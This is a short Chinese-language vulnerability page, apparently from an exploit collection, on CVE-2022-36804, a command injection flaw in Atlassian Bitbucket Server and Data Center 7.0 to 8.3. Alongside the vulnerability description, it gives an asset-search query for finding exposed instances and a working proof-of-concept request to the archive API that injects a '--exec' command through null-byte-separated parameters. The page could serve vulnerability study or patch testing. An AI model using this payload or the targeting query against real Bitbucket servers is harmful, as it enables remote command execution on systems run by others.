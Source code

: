 # 

# Atlassian Bitbucket archive 远程命令执行漏洞 CVE-2022-36804

## 漏洞描述

Atlassian 发布安全公告，披露了 Bitbucket Server 和 Data Center 在 7.0.0 版中引入了一个严重安全漏洞。

Bitbucket 是 Atlassian 公司提供的一个基于 web 的版本库托管服务，支持 Mercurial 和 Git 版本控制系统。支持私有化部署，根据国内某资产测绘平台数据显示，近一年全球有超过 1w+ 相关服务对外开放。

官方漏洞公告中描述 Bitbucket Server 和 Data Center 多个 API 端点存在命令注入漏洞，漏洞触发条件是攻击者具备公开项目的访问权限或者私有项目的可读权限，影响版本从 7.0 到 8.3

## 漏洞影响

```
Atlassian Bitbucket 7.0～8.3
```

## 网络测绘

```
app="ATLASSIAN-Bitbucket"
```

## 漏洞复现

登录页面

![image-20221008102322162](./images/202210081023211.png)

验证POC

```
/rest/api/latest/projects/BIZEE/repos/bizee-communication-api/archive?filename=wN3Am&at=wN3Am&path=wN3Am&prefix=ax%00--exec=%60id%60%00--remote=origin
```

![image-20221008102343377](./images/202210081023437.png)
